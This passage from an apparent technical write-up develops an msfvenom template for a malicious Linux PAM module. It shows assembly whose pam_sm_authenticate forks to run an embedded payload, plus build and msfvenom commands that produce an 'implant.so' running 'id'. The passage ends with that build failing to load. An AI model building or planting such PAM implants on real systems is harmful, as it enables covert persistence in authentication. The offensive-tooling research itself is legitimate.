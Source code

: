 
## Using a Linker

The first most straightforward way to create a valid shared object that
meets the requirements of PAM is to write "normal" assembly, then use a linker
to create the shared object. The templates included in `metasploit-framework`
all have hand-rolled ELF headers, but that seems hard. This will definitely
create a valid ELF, but it's not likely to meet all the requirements of
`msfvenom` templates out the gate. Here's the assembly:

```asm
BITS 64

global pam_sm_setcred
pam_sm_setcred:
  xor rax, rax
  ret

global pam_sm_authenticate
pam_sm_authenticate:
  mov rax, 57      ; sys_fork
  syscall
  test rax, rax
  jz child
  xor rax, rax
  ret             ; parent returns

child: 

```

Really the only notable part of this assembly is the `sys_fork` call. This will
create a child process that will continue running the payload while the parent
process continues on its merry way. Assembling, linking, and running it
confirms that our symbols are exported correctly and that execution continues
beyond the payload:

```sh
micrictor@dev:~/msfvenom_pam$ nasm elf_pam_so_x64_linked.s -f elf64 -o elf_pam_so_template_x64.o
micrictor@dev:~/msfvenom_pam$ ld -shared elf_pam_so_template_x64.o -o elf_pam_so_template.bin
micrictor@dev:~/msfvenom_pam$ ./tester `pwd`/elf_pam_so_template.bin
0x7f652342f004: pam_sm_authenticate = 0
0x7f652342f000: pam_sm_setcred = 0
Finished running
```

Trying to run a payload causes issues, though:

```sh
micrictor@dev:~/msfvenom_pam$ msfvenom -x elf_pam_so_template.bin -f elf --payload linux/x64/exec CMD='id > proof.txt' > ./implant.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 55 bytes
Final size of elf file: 13375 bytes

micrictor@dev:~/msfvenom_pam$ ./tester `pwd`/implant.so
dlopen failed: /home/micrictor/msfvenom_pam/implant.so: ELF load command address/offset not page-aligned
```
